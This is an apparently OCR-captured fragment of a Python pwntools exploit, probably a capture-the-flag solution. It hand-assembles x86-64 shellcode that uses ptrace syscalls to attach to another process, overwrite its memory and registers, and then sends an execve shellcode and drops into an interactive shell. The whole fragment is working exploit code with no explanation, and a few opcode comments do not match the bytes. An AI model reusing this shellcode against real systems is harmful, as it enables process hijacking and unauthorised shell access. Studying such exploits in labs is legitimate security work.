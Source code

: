 ```python
b'\x48\xC7\xC0\x65\x00\x00\x00' # mov rax,101
b'\x48\xC7\xC7\x10\x00\x00\x00' # mov rsi,10h
b'\x48\x31\xD2'   # xor rdx,rdx
b'\x4D\x31\xD2'   # xor r10,r10
b'\x0f\x05'       # syscall

b'\x44\x89\xFe'     # mov edi,r15d
b'\x48\xC7\xC0\x65\x00\x00\x00' # mov rax,101
b'\x48\xC7\xC7\x0c\x00\x00\x00' # mov rsi,ch
b'\x48\x31\xD2'   # xor rdx,rdx
b'\x49\xBA\x00\xE5\x0D\xDC\xEA\x0D\x00\x00'   # mov r10,0x0deadc0de500
b'\x0f\x05'       # syscall
)
shellcode+=(
b'\x49\xB8\x00\xE0\x0D\xDC\xEA\x0D\x00\x00'   # mov r8,0x0deadc0de000
b'\x49\xB9\x00\xE2\x0D\xDC\xEA\x0D\x00\x00'   # mov r8,0x0deadc0de200
)
shellcode+=4*(
b'\x48\xC7\xC0\x65\x00\x00\x00' # mov rax,101
b'\x44\x89\xFe'     # mov edi,r15d
b'\x48\xC7\xC7\x05\x00\x00\x00' # mov rsi,10h
b'\x4C\x89\xC2' # mov rdx, r8
b'\x4D\x8B\x11'#mov  r10, [r9]
b'\x0f\x05'       # syscall

b'\x49\x83\xC0\x08' # add r8+8
b'\x49\x83\xC1\x08' # add r8+8
)
shellcode+=(
b'\x49\xB9\x00\xE0\x0D\xDC\xEA\x0D\x00\x00' #  mov r9,0x0deadc0de200
b'\x49\xB8\x00\xE5\x0D\xDC\xEA\x0D\x00\x00'   # mov r8,0x0deadc0de500
b'\x4D\x89\x88\x80\x00\x00\x00'             #  mov    [r8+0x80],r9

b'\x44\x89\xFe'     # mov edi,r15d
b'\x48\xC7\xC0\x65\x00\x00\x00' # mov rax,101
b'\x48\xC7\xC7\x0d\x00\x00\x00' # mov rsi,dh
b'\x48\x31\xD2'   # xor rdx,rdx
b'\x49\xBA\x00\xE5\x0D\xDC\xEA\x0D\x00\x00'   # mov r10,0x0deadc0de500
b'\x0f\x05'       # syscall

b'\x44\x89\xFe'     # mov edi,r15d
b'\x48\xC7\xC0\x65\x00\x00\x00' # mov rax,101
b'\x48\xC7\xC7\x11\x00\x00\x00' # mov rsi,17h
b'\x48\x31\xD2'   # xor rdx,rdx
b'\x4D\x31\xD2'   # xor r10,r10
b'\x0f\x05'       # syscall
)
shellcode+=asm('''
loop:
    jmp loop
''')
shellcode=shellcode.ljust(0x200,b'\x61')
shellcode+=execve_shellcode
#gdb.attach(io)
io.send(shellcode)
io.interactive()
```
